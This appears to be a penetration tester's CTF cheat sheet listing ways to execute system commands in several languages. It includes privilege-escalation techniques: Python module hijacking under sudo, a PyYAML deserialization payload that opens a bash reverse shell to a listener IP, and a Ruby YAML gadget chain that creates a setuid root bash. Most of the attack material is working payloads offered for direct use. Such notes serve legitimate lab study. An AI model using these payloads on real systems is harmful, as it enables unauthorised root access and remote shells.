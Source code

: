 #### Python
```
import subprocess
output = subprocess.check_output('whoami', shell=True)
print(output.decode())
```
- execute system commands
- can also use:
```
import os
os.system('whoami')
```

hijacking imported module for priv esc
- user has sudo privs for python script that imports "random" module
- in same directory as script, run:
```
echo "import os" > random.py
```
- creates first line of new file. then:
```
echo 'os.system("/bin/bash")' >> random.py
```
- `cat random.py` should show:
```
import os
os.system("/bin/bash")
```
- then make modifiable:
```
chmod +x random.py
```
- set current directory as pythonpath:
```
export PYTHONPATH=/home/alice:$PYTHONPATH
```
- then run the command that has sudo privs:
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
- should create shell as rabbit user
#### Python2 v Python3
- absence of parentheses in print argument indicates script is written in python 2
	- Python 2: print is a statement, so parentheses are optional unless needed for grouping.
	- Python 3: print is a function, so parentheses are required:
		- Ex: `print("Website is up")`
- Using `input()` in Python2 can lead to security vulnerabilities because it evaluates user input as code.
	- Python 2:
		- `input()` function:
			 - Parses the user input as a Python expression using `eval()`
			- Equivalent to `eval(raw_input(prompt))`
			- Dangerous if user input is not trusted, as it can execute arbitrary code.
		- `raw_input()` function:
			- Reads user input as a string without evaluation.
	- Python 3:
		- `input()` function:
			- Reads user input as a string.
			- Equivalent to `raw_input()` in Python 2.
		- `raw_input()` function:
			- Removed in Python 3.
			- If you need to evaluate user input as code (which is generally discouraged), you must explicitly use `eval()`

PyYAML deserialization attacks
```
import yaml

data = """
!!python/object/new:os.system
- echo EXPLOIT!
"""
yaml_data = yaml.load(data)
```
- unsafe example: yaml.load is unsafe
```
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "import os; os.system('bash -c \"bash -i >& /dev/tcp/10.13.0.22/443 0>&1\"')"
```
- rev shell payload (replace IP and port for `nc` listener)
#### PHP
```
<?php
echo shell_exec('whoami');
```
- can also execute code with `exec()` or `system()`

```
php -a
```
- bash to get an interactive php terminal
#### MySQL
```
SELECT sys_exec('whoami');
```
- only works if lib_mysqludf_sys is installed
	- otherwise, need to escape

#### Node.js (Javascript)
```
const { exec } = require('child_process');

exec('whoami', (error, stdout, stderr) => {
    if (error) {
        console.error(`Error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.error(`Stderr: ${stderr}`);
        return;
    }
    console.log(`Output: ${stdout}`);
});
```
- `child_process` to execute

#### Ruby
```
puts `whoami`
```
- backticks to execute or `system()`:
```
system('whoami')
```

Ruby YAML Deserialization privesc:
```
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
```
- unsafe YAML code, which was part of a script that user can run with sudo perms
```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```
- POC to save dependencies.yml file in example above 
	- saving in any writable directory should work; does not have to be in the same directory as the ruby script
- if upon running script with unsafe yaml again, should see `id` output (in addition to potential error messages), means POC worked. Replace with malicious payload:
```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf
         method_id: :resolve
```
- copies bash to `/tmp/0xdf` then modifies setid and setgid so anyone can run it and it runs as root
```
/tmp/0xdf -p
```
- root shell
#### Perl
```
system('whoami');
```

#### Java
```
import java.io.*;

public class Main {
    public static void main(String[] args) throws Exception {
        Process process = Runtime.getRuntime().exec("whoami");
        BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
        String line;
        while ((line = reader.readLine()) != null) {
            System.out.println(line);
        }
    }
}
```
- `Runtime.getRuntime().exec()` to execute system commands